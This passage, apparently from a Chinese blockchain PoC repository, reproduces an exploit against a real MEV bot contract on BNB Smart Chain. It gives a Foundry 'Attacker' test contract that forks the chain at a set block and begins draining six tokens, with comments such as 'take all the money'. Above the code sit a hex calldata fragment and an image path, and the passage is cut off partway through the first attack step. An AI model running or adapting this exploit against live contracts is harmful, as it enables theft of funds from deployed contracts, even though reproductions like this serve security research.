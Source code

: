 ```
000000000000000000000000ee286554f8b315f0560a15b6f085ddad616d0601
0000000000000000000000000000000000000000000000000000000000000000
0000000000000000000000000000000000000000000000000000000000000000
```

## 复现

[github](https://github.com/chen4903/BlockChainPoC/tree/master/test)

```solidity
pragma solidity ^0.8.10;

import "forge-std/Test.sol";
import "./interface.sol";

contract Attacker is Test {

    IMEVBOT public mevbot = IMEVBOT(address(0x64dD59D6C7f09dc05B472ce5CB961b6E10106E1d));

    IBSCUSD public BSCUSD = IBSCUSD(address(0x55d398326f99059fF775485246999027B3197955));
    IWBNB public WBNB = IWBNB(address(0xbb4CdB9CBd36B01bD1cBaEBF2De08d9173bc095c));
    IBUSD public BUSD = IBUSD(address(0xe9e7CEA3DedcA5984780Bafc599bD69ADd087D56));
    IUSDC public USDC = IUSDC(address(0x8AC76a51cc950d9822D68b83fE1Ad97B32Cd580d));
    IBTCB public BTCB = IBTCB(address(0x7130d2A12B9BCbFAe4f2634d864A1Ee1Ce3Ead9c));
    IETH public ETH = IETH(address(0x2170Ed0880ac9A755fd29B2688956BD959F933F8));

    address public token0;
    address public token1;

     function setUp() public {
        vm.createSelectFork("bsc", 21_297_409);

        vm.label(address(mevbot), "mevbot");
        vm.label(address(BSCUSD), "BSCUSD");
        vm.label(address(WBNB), "WBNB");
        vm.label(address(BUSD), "BUSD");
        vm.label(address(USDC), "USDC");
        vm.label(address(BTCB), "BTCB");
        vm.label(address(ETH), "ETH");
    }

    function test_Exploit() public {
        emit log_named_decimal_uint("[Start] Attacker BSCUSD balance before exploit", BSCUSD.balanceOf(address(this)), 18);
        emit log_named_decimal_uint("[Start] Attacker WBNB balance before exploit", WBNB.balanceOf(address(this)), 18);
        emit log_named_decimal_uint("[Start] Attacker BUSD balance before exploit", BUSD.balanceOf(address(this)), 18);
        emit log_named_decimal_uint("[Start] Attacker USDC balance before exploit", USDC.balanceOf(address(this)), 18);
        emit log_named_decimal_uint("[Start] Attacker BTCB balance before exploit", BTCB.balanceOf(address(this)), 18);
        emit log_named_decimal_uint("[Start] Attacker ETH balance before exploit", ETH.balanceOf(address(this)), 18);

        // 下面分别进行6次攻击

        // 01
        (token0, token1) = (address(BSCUSD), address(BSCUSD));
        // 拿完所有钱
        uint256 BSCUSD_balance = BSCUSD.balanceOf(address(mevbot));
        // address(this) = 0x7FA9385bE102ac3EAc297483Dd6233D62b3e1496
        // 构造varg3
```